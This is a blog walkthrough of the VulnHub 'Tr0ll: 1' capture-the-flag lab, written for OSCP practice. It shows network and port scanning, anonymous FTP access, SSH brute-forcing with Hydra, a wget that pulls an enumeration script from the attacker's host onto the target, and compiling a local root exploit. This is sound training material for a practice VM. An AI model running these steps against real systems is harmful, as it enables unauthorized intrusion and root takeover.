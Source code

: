 ```yaml
---
title: "Tr0ll: 1 Walkthrough"
author: alex
date: Thu  7 Jul 10:15:48 CEST 2023
categories: [OSCP Prep,Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-07-tr0ll-walkthrough
---
```


## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Wireshark
- Linux Exploit Suggester
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.12    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.12
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

This way, we get more information about the victim. Let's have a look:

```
Nmap scan report for 192.168.1.12
Host is up (0.00024s latency).
Not shown: 65532 closed tcp ports (reset)

PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.1.23
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d618d9ef75d31c29be14b52b1854a9c0 (DSA)
|   2048 ee8c64874439538c24fe9d39a9adeadb (RSA)
|   256 0e66e650cf563b9c678b5f56caae6bf4 (ECDSA)
|_  256 b28be2465ceffddc72f7107e045f2585 (ED25519)

80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)

MAC Address: 08:00:27:2E:C5:50 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 0.004 days (since Sun Apr 16 13:14:44 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok, now we know that ports 21 **(FTP)**, 22 **(SSH)** and 80 **(HTTP)** are open. As we can see, anonymous login is allowed for an FTP directory. Let's log in and see what we have:

    ftp 192.168.1.12

> **USER:** anonymous 
> 
> **PASS:**

![FTP](/ftp.png)

And now we can list the files. `ls` and we can see a `lol.pcap` file. This files are the output files of sniffing tools like **Wireshark**. Let's download it and have a look.

```bash
get lol.pcap
```
   
![sup3rs3cr3tdirlol](/supersecretdir.png)

```
Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n
\n
Sucks, you were so close... gotta TRY HARDER!\n
```

Isn't it obvious? Let's open Firefox and look for: `http://192.168.1.12/sup3rs3cr3tdirlol/`

And there we go! We found the **/sup3rs3cr3tdirlol**. Here we can find a file we should download. To see what the file contains we can use `strings` command.

```bash
strings roflmao
```

And we get an output. But the interesting thing of this output is this line: 

**Find address 0x0856BF to proceed**

![Strings](/strings.png)

Another directory? Hell yeah! `http://192.168.1.12/0x0856BF/`

More files. This time looks like we get some usernames and a Pass.txt. Let's try to brute force **SSH** with **Hydra.** 

> **Note:** After a few tries... I realized that the password wasn't the lines contained in the Pass.txt but **Pass.txt**!

```bash
sudo hydra -L users.txt -p Pass.txt ssh://192.168.1.12 
```

Note I have made a text document with the usernames. And quickly we find a valid combination:

![Brute Force with Hydra](/hydra.png)

> **USER:** overflow
> 
> **PASS:** Pass.txt

Let's connect via **SSH**! Ok, now we're into the system! Let's start enumerating and deciding the way to escalate privileges but first:

```bash
/bin/bash -i
```

## Enumeration

Once inside, the way I use to enumerate possible ways for **PrivEsc** is by getting into the `tmp` folder and downloading the **Linux Exploit Suggester** script into the victim's machine and running it. This way I can see my possibilities. To do this, paste the script into your `/var/www/html` folder. Once you have it:

```bash
sudo service apache2 start
```

Now, in **tr0ll** machine, inside `tmp` folder:

```bash
wget http://192.168.1.23/Enumeration/les.sh
```

Now we should give permissions to the file:

```bash
chmod 777 les.sh
```

And run it:

```bash
./les.sh
```

Now we know that this machine is specifically vulnerable to:

![Linux Exploit Suggester](/exploit.png)

## Exploitation

Now we only need to compile the exploit, give permissions and run it:

```bash
gcc exploit.c -o exploit
chmod 777 exploit
./exploit
```

![Root](/root.png)

And we should see a root shell now! Change to the `root` directory and there youll find **proof.txt**. You made it! And that's it for this machine. Happy hacking!

![Proof](/proof.png)